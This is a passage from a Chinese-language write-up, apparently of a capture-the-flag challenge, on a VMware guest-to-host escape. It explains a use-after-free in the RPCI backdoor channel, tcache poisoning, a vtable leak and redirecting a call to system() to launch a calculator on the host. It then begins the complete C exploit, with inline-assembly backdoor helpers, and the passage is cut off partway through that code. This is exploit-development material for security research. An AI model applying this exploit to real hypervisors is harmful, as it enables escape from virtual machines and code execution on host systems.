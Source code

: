 ![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5hEPHe4k2CYU6qlUyOPdgj54WjRick3dSrwRyP9gYziaeV5kIlBFEuIKx0d697zW9JX38u3MPAGmFA/640?wx_fmt=png)

发送完 info-get guestinfo.a 命令后，会 malloc(strlen(guestinfo.a))，作为 output 缓冲区，因为此时 tcache[0x110] 头是我们刚刚释放的 channel_0 的 command 块，会将该块分配出来作为输出缓冲区，但是 channel_0_struct_RPCI->heap_ptr 中仍保存了堆指针，此时 guestinfo.a = channel_0_struct_RPCI->heap_ptr。

然后下一步就是与 rwctf 相同的思路，再次释放该堆块到 tcache[0x110] 头，利用 vmx.capability.dnd_version ，将 obj 申请到 guestinfo.a 的 output 缓冲区，利用 obj 中的 vtable 泄露 testbase。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5hEPHe4k2CYU6qlUyOPdgjAibNtNlAvFiaqvtrmibtO7EuynNjbribGfMlW910Ps2YZu8U0ebBQiaRwyQ/640?wx_fmt=png)

*   ### **exploit**
    

利用过程同样类似，打开 channel_0 的用来申请一个 size0 的堆块，释放后用 channel_1 申请回来，然后 channel_0 再次释放，造成 UAF，利用 channel_1 来写入数据，修改 tcache 的 fd，造成任意地址写，channel_2 申请一次，channel_3 申请到伪造 fd 处。

那么如何伪造 fd。调试中发现，在 后，会 call [r8+rax*1+0x8] ，并且第一个参数 rdi = [rdi+rax] 。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5hEPHe4k2CYU6qlUyOPdgj5nFw1k39SSDoQn500oMAuJljG7A5T2AQ3argotphaicKic5Q7u18d6yg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5hEPHe4k2CYU6qlUyOPdgjatlVGXdNBj8ib3zxXcEH396dFEBY9AicygMJUokyRTEn4r9BIw25enicA/640?wx_fmt=png)

Rdi 与 r8 寄存器中地址相近，rax=0，那么如果将 fd 伪造到 r8 处，在 r8+8 处写入 system 地址，rdi 处写入 gnome-calculator\x00 即可弹出计算器。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5hEPHe4k2CYU6qlUyOPdgjapqMaR6OXblqXfcVt98wFvfVEOoJwiaVQWTZcrzOzmNVdjVZialAGdEw/640?wx_fmt=png)

最后效果演示：（妈妈我也会弹计算器了！）

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5hEPHe4k2CYU6qlUyOPdgjTmp70qO2WiaVwG0u8HibsEa9gicHvq5lvSV5gmwlRD5ZgFKw1U1XNpw4A/640?wx_fmt=png)

**0×3** **完整 exp**

```
#include <stdio.h>
#include <stdint.h>
void channel_open(int *cookie1,int *cookie2,int *channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rdi,%%r10\n\t"
        "movq %%rsi,%%r11\n\t"
        "movq %%rdx,%%r12\n\t"
        "movq %%rcx,%%r13\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x49435052,%%ebx\n\t"
        "movl $0x1e,%%ecx\n\t"
        "movl $0x5658,%%edx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%edi,(%%r10)\n\t"
        "movl %%esi,(%%r11)\n\t"
        "movl %%edx,(%%r12)\n\t"
        "movl %%ecx,(%%r13)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r8","%r10","%r11","%r12","%r13"
       );
}

void channel_set_len(int cookie1,int cookie2,int channel_num,int len,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%r8,%%r10\n\t"
        "movl %%ecx,%%ebx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0001001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
```
